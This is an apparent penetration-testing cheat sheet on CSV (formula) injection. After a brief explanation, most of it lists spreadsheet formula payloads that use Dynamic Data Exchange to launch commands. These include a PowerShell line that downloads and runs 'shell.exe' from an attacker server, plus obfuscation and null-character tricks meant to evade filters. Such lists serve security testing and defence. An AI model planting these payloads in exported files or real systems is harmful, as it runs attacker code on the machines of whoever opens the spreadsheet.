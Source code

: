 # CSV Injection

> Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel, Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.


## Summary

* [Methodology](#methodology)
* [References](#references)


## Methodology

CSV Injection, also known as Formula Injection, is a security vulnerability that occurs when untrusted input is included in a CSV file. Any formula can be started with: 

```powershell
=
+
–
@
```


Basic exploits with **Dynamic Data Exchange**.

* Spawn a calc
    ```powershell
    DDE ("cmd";"/C calc";"!A0")A0
    @SUM(1+1)*cmd|' /C calc'!A0
    =2+5+cmd|' /C calc'!A0
    =cmd|' /C calc'!'A1'
    ```

* PowerShell download and execute
    ```powershell
    =cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
    ```

* Prefix obfuscation and command chaining
    ```powershell
    =AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
    =cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
    =         cmd|'/c calc.exe'!A
    ```

* Using rundll32 instead of cmd
    ```powershell
    =rundll32|'URL.dll,OpenURL calc.exe'!A
    =rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A
    ```

* Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.
    ```powershell
    =    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
    ```

Technical details of the above payloads:

- `cmd` is the name the server can respond to whenever a client is trying to access the server
- `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
- `!A0` is the item name that specifies unit of data that a server can respond when the client is requesting the data


## References

- [CSV Excel Macro Injection - Timo Goosen, Albinowax - Jun 21, 2022](https://owasp.org/www-community/attacks/CSV_Injection)
- [CSV Excel formula injection - Google Bug Hunter University - May 22, 2022](https://bughunters.google.com/learn/invalid-reports/google-products/4965108570390528/csv-formula-injection)
- [CSV Injection – A Guide To Protecting CSV Files - Akansha Kesharwani - 30/11/2017](https://payatu.com/csv-injection-basic-to-exploit/)
- [From CSV to Meterpreter - Adam Chester - November 05, 2015](https://blog.xpnsec.com/from-csv-to-meterpreter/)
- [The Absurdly Underestimated Dangers of CSV Injection - George Mauer - 7 October, 2017](http://georgemauer.net/2017/10/07/csv-injection.html)
- [Three New DDE Obfuscation Methods - ReversingLabs - September 24, 2018](https://blog.reversinglabs.com/blog/cvs-dde-exploits-and-obfuscation)
- [Your Excel Sheets Are Not Safe! Here's How to Beat CSV Injection - we45 - October 5, 2020](https://www.we45.com/post/your-excel-sheets-are-not-safe-heres-how-to-beat-csv-injection)